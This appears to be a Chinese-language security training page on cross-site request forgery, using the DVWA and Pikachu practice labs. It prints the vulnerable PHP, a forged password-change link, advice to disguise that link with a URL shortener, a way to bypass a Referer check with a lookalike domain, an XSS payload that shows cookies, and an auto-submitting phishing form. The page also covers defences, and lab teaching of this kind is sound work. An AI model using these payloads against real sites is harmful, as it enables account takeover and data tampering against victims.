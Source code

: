 ```yaml
---
slug: /net-security/09/01
---
```


👉 课件 PDF：[CSRF](./CSRF%20Training.pdf)

## 简介

**跨站请求伪造**（CSRF，Cross Site Request Forgery），用户登陆了网站，然后另外一个网站利用了该登录态，然后发起伪造的请求。



![](https://img.wukaipeng.com/2023/11/03-080416-image-20231103080415904.png)



CSRF 的三个关键条件：

1️⃣ 属于功能操作。比如点击修改邮箱、密码

2️⃣ 基于 Cookie。后端仅依赖 Cookie 识别验证用户

3️⃣ 参数确定。没有随机、不可预测的参数。



## DVWA 演示

### Low

打开 CSRF 模块，查看源码：

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

抓包后，发现符合 CSRF 攻击的三个条件：

- 修改密码操作
- 仅用 Cookie 做校验
- 参数确定

![](https://img.wukaipeng.com/2023/11/03-084127-image-20231103084127381.png)

在同一网页下，访问 `http://YOUR_IP_ADDRESS:PORT/vulnerabilities/csrf/?password_new=234&password_conf=234&Change=Change#` 就可以修改密码

为了伪装这条链接，可以使用短链接工具 🧰 [He3 - 短链生成器](https://t.he3app.com/nvmj) 生成短链，比如：`https://3ehapps.com/s/DSTjbX`



### Medium

之前如果是使用 `sagikazarmark/dvwa` 的镜像的话，现在改为 `citizenstig/dvwa`：

```bash
docker pull docker.io/citizenstig/dvwa
docker run -d --name c-dvwa -p 8081:80 -p 3307:3306 docker.io/citizenstig/dvwa
```

> 初始化后，账号为 `admin`，密码为 `password`

查看 CSRF 模块源码，可以看到，比 Low 源码增加了验证 `SERVER_NAME` 和 `HTPP_REFERER`

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
       //...
    }
    //...
}

?> 
```

> 💡 这里用 `eregi()` 函数做校验，这也是为什么用 `citizenstig/dvwa` 这个镜像的原因。这个函数用于匹配正则表达式 or 字符串匹配，不区分大小写，最新 PHP7 已经完全移除了，用 `preg_match()` 替代

绕过方法：比如目标网站是 `www.wukaipeng.com`，可以构造网站 `www.wukaipeng.com.hacker.com`，该网站包含目标网站字符串，因此可以绕过校验。



### High

High 等级包含 Anti-CSRF 机制，每次访问的修改密码页面都会包含随机的 `user_token`：

![](https://img.wukaipeng.com/2023/11/04-063905-image-20231104063905106.png)

修改密码请求的参数会带上 `user_token`，那么 CSRF 第三个关键条件就破坏了，参数是不确定的：

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

可以结合 XSS 攻击，先获取 cookie：

在 XSS（Reflected）模块使用 `<img src=x OnerrOr=alert(document.cookie)>` 获取 cookie：

![](https://img.wukaipeng.com/2023/11/04-064516-image-20231104064516537.png)



抓包修改：



![](https://img.wukaipeng.com/2023/11/04-071749-image-20231104071748887.png)

## Pikachu

### Get

Get 请求例子很简单，和 DVWA 一样：

![](https://img.wukaipeng.com/2023/11/04-075945-image-20231104075945273.png)

### POST

对于 POST 请求的链接，可以制作钓鱼网页诱导用户：

```html
<html>
  <head>
    <script>
      // 自动点击提交
      window.onload = function () {
        document.getElementById('postsubmit').click()
      }
    </script>
  </head>
  <body>
    <form
      method="post"
      action="http://TARGET_IP_ADDRESS:PORT/vul/csrf/csrfpost/csrf_post_edit.php"
    >
      <input id="sex" type="text" name="sex" value="boy" />
      <input id="phonenum" type="text" name="phonenum" value="100000002" />
      <input id="add" type="text" name="add" value="hacker" />
      <input id="email" type="text" name="email" value="dummy@hacker.com" />
      <input id="postsubmit" type="submit" name="submit" value="submit" />
    </form>
  </body>
</html>
```

用户点击钓鱼网站，首先会访问该网页，该网页会发起 POST 请求到目标网站，修改用户信息，然后再跳转到目标网站页面，整个过程很快：



![](https://img.wukaipeng.com/2023/11/04-082611-image-20231104082611857.png)

上述 CSRF 的 POV 代码也可以直接让 Burp 生成：

![](https://img.wukaipeng.com/2023/11/04-083217-image-20231104083217166.png)

![](https://img.wukaipeng.com/2023/11/04-083242-image-20231104083242445.png)

## 防御

最靠谱的防御方法是加入 Anti-CSRF Token，破坏第三个关键条件。

1️⃣ HTTP Referer：HTTP Referer  指示请求的来源，可以通过它校验请求是否来自于可信域。

2️⃣ Anti-CSRF Token

3️⃣ 验证码

















